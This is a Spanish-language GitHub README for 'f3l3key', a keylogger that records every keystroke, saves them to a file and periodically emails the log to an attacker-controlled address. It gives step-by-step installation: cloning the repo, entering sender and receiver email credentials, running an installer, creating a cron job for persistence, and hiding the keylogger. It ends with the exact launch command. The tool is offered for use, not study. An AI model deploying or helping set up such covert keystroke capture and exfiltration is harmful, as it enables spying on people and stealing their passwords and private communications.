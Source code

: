 # f3l3key
##############################################################################################<br><br>
En este repositorio podrás descargar un KEYLOGGER y ponerlo en funcionamiento. Con este podrás generar un archivo con todas las pulsaciones del teclado y enviarlo por correo electrónico.<br><br>
[![keylogger.jpg](https://i.postimg.cc/rwDvqpcB/keylogger.jpg)](https://postimg.cc/LJMyT2JD)
<br><br>
PASOS A SEGUIR<br><br>
1- Sitúate en una terminal de Ubuntu y aplica la siguiente comanda: git clone https://github.com/f3l3p1n0/f3l3key.git<br>
2- Abre el archivo tester.sh y cambia: la ruta, correo emisor, la clave del emisor y el correo receptor. Para seguir con mayor detalle estos pasos
diríjete a este artículo: https://f3l3p1n0.github.io/posts/f3l3key/post.html<br>
3- Una vez editado el archivo, guárdalo y dale permisos de ejecución a los 3 archivos.<br>
4- Ejecuta el archivo installer.sh<br>
5- Cuando se detenga en el apartado de crontab, presiona 1 y la tecla enter.<br>
6- Guarda el archivo y habrás creada la nueva tarea Cron.<br>
7- Listo, ahora debes esperar los minutos correspondientes para recibir en tu cuenta receptora los correos.<br><br>

pd: es recomendable que el keylogger se ubique en una posición oculta. Ten en cuenta que debes especificar la ruta donde se encuentra el keylogger, de lo contrario no funcionará. De igual manera, debes respetar la siguiente linea con los mismos espacios y estructura:

python3 /home/user/Descargas/f3l3key.py emisor@gmail.com pega_la_clave_aqui receptor@hotmail.com &

